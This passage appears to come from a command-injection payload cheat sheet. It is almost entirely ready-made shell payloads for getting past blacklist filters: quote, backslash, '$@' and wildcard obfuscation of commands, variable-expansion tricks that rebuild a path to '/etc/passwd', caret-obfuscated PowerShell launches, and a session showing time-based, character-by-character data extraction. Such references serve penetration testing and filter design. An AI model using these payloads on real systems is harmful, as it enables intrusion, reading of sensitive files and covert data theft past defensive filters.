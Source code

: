 ### Bypass Blacklisted words

#### **Bypass with single quote**

```
w'h'o'am'i
```

**Bypass with double quote**

```
w"h"o"am"i
```

**Bypass with backslash and slash**

```
w\ho\am\i
/\b\i\n/////s\h
```

**Bypass with $@**

```
who$@ami

echo $0
-> /usr/bin/zsh
echo whoami|$0
```

**Bypass with variable expansion**

```
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

**Bypass with wildcards**

```
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

### Time based data exfiltration

Extracting data : char by char

```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```
